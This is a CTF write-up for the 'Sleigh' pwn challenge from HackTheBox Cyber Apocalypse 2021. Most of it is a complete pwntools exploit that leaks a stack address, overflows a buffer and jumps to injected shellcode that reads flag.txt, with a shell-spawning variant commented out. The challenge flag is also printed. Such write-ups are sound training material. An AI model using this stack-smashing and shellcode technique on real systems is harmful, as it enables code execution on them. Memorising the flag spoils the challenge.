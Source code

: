 ```yaml
---
name: Sleigh (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Sleigh (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Sleigh

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/deg0CQwwN-M/0.jpg)](https://youtu.be/deg0CQwwN-M?t=2843s "HTB Cyber Apocalypse CTF 2021: Sleigh")

## Challenge Description

> The Elves have messed up with Santa's sleigh! Without it, he will not be able to deliver any gifts!! Help him repair it and save the holidays!

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    p = process(exe)
    p.sendlineafter(b'>', b'1')  # Chase joker
    p.sendlineafter(b'>', payload)  # Cyclic pattern
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './sleigh'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(500))

# Start program
io = start()

# Get the stack address (where out navigation commands will go)
io.sendlineafter(b'>', b'1')
io.recvline()
stack_addr = int(re.search(r"(0x[\w\d]+)", io.recvlineS()).group(0), 16)
info("leaked stack_addr: %#x", stack_addr)

# Need to pop registers at the beginning to make room on stack
shellcode = asm(shellcraft.popad())
# Build shellcode (cat flag.txt or spawn shell)
shellcode += asm(shellcraft.cat('flag.txt'))
# shellcode += asm(shellcraft.sh())
# Pad shellcode with NOPs until we get to return address
padding = asm('nop') * (offset - len(shellcode))

# Build the payload
payload = flat([
    padding,
    shellcode,
    stack_addr
])

io.sendlineafter(b'>', payload)  # Chase joker

# Got Shell?
io.interactive()
```

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
